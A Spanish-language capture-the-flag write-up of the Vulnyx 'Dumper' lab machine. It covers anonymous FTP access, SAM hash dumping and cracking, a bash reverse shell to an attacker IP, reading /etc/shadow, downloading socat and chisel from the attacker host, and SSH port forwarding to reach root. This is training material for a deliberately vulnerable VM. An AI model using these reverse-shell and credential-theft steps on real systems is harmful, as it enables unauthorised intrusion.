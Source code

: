 ```yaml
---
title: Vulnyx - Dumper
author: estx
date: 2024-04-27 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Information Leakage', 'Local Port Forwarding']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Hook/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.66	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```


a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.66 -oG ports

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
4200/tcp open  vrml-multi-use
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p21,80,4200 -sCV 192.168.100.66 -oN versions

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.100.66:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

* En el servicio FTP existe un directorio .backup además de que la autenticación anónima está permitida

  ```bash
  ❯ ftp 192.168.100.66
  Name (192.168.100.66:estx): anonymous
  Password: [ENTER]
  230 Login successful.
  ftp> ls
  drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup
  ftp> cd .backup
  ftp> ls
  -rwxrwxrwx   1 root     root        24576 Feb 09 10:35 sam.bak
  -rwxrwxrwx   1 root     root      3264512 Feb 09 10:36 system.bak
  ftp>
  ```

* Nos descargamos los archivos que encontramos en este servicio

  ```bash
  ftp> get sam.bak
  ftp> get system.bak
  ```

> El archivo **`sam`** es una base de datos con los hashes de las cuentas locales en Windows y el archivo **`system`** contiene la 'bootkey' que es la clave con la que se encripta la **sam**.
{: .prompt-info }

c. Podemos desencriptar estos hashes con **impacket-secretsdump** con el fin de extraer los hashes (NTLM) y tratar de crackearlos.

```bash
❯ impacket-secretsdump -sam sam.bak -system system.bak LOCAL

[*] Target system bootKey: 0x042145cf7279c87791fa907cd6d9bccd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

* Guardamos todos lo hashes y los crackeamos con hashcat o john

  ```bash
  hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt

  dumper:7324322d85d3714068d67eccee442365:1dumper
  admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
  ```

d. El servicio del puerto **4200** es ShellInABox, este servicio permite ejecutar una bash en el navegador, para conectarnos a este servicio tenemos que indicar el protocolo **https**

![shell.png](/assets/images/Vulnyx/Easy/Dump/01-shell.png)


### Escalada de Privilegios 💹

a. Una vez que nos autenticamos con las credenciales `dumper:1dumper` nos enviamos una reverse shell para trabajar cómodamente

```bash
# Máquina Atancante
❯ nc -lvnp 4444
```

```bash
# SHELL IN A BOX
per@dump:~$ bash -c 'bash -i >& /dev/tcp/[IP Máquina Atacante]/4444 0>&1'
```

* Ahora realizamos un tratamiento de la TTY en la reverse shell

  ```bash
  dumper@dump:~$ script /dev/null -c bash
  script /dev/null -c bash
  dumper@dump:~$ ^Z
  [1]  + 7255 suspended  nc -lvnp 4444
  ❯ stty raw -echo;fg
  [1]  + 7255 continued  nc -lvnp 4444
                                      reset xterm

  dumper@dump:~$ export TERM=xterm-256color
  dumper@dump:~$ source /etc/skel/.bashrc 
  ```

b. Con [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240421-825f642d) buscamos formas de escalar privilegios, lo que veremos es que podemos leer el contenido del `/etc/shadow`, aquí veremos el hash del usuario root el cual crackeamos con hashcat

```bash
# Dumper
dumper@dump:~$ cat /etc/shadow
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
...
------------------------------------------------------------------------
# Máquina Host
❯ hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

c. No podemos usar 'su' para transformarnos en **root**. Investigando más veremos que el servicio SSH se encuentra habilitado, pero, no se lo ve externamente. Usaremos **socat** o **chisel** para hacer un `Local Port Forwarding` con el fin de hacer accesible el puerto 22

* Usando [**socat**](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

  a. Descargamos socat en la Máquina Dumper

  ```bash
  # Máquina Atacante
  ❯ ls
  socat  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dumper
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/socat
  ```

  b. Le damos permisos de ejecución a socat y hacemos el **Port Forwarding**

  ```bash
  dumper@dump:/tmp$ chmod +x ./socat
  dumper@dump:/tmp$ ./socat TCP-LISTEN:4444,reuseaddr,fork TCP:127.0.0.1:22
  ```

  > Con esto indicarmos que toda conexión entrante por el puerto 4444 se redirigirá al puerto 22 (SSH)
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ ssh root@192.168.100.66 -p 4444
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  root@192.168.100.66's password: 
  root@dump:~#
  ```

* Usando [**chisel**](https://github.com/jpillora/chisel/releases)

  a. Descargamos chisel en la Máquina Dumper

  ```bash
  # Máquina Atacante
  ❯ ls
  chisel  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dumper
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/chisel
  ```


  b. Primero, ejecutamos chisel en modo servidor en nuestra máquina atacante

  ```bash
  ❯ ./chisel server --reverse -p 4443
  2024/04/27 23:24:56 server: Reverse tunnelling enabled
  2024/04/27 23:24:56 server: Fingerprint 9xTeAG/cj+NT6JQBH0NOgx+P8LXbW6+vLOQoJ2bbpss=
  2024/04/27 23:24:56 server: Listening on http://0.0.0.0:4443
  ```

  b. Ahora, le damos permisos de ejecución a chisel y hacemos el **Port Forwarding** en Dumper

  ```bash
  dumper@dump:/tmp$ ./chisel client [IP Máquina Atacante]:4443 R:[Puerto en nuestra máquina atacante]:127.0.0.1:22
  2024/04/27 23:27:20 client: Connecting to ws://192.168.100.55:4443
  ```

  > **`[IP Máquina Atacante]:4443`** Aquí nos conectamos al servidor levantado en nuestra máquina atacante. **`R:[Puerto en nuestra máquina atacante]:127.0.0.1:22`** con esto indicamos un puerto de nuestra máquina atacante el cual ocupará el servicio SSH de la máquina Dumper
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ lsof -i:22
  COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
  chisel  11102 root    8u  IPv6  77037      0t0  TCP *:ssh (LISTEN)

  ❯ ssh root@127.0.0.1
  root@127.0.0.1's password: 
  root@dump:~#
  ```
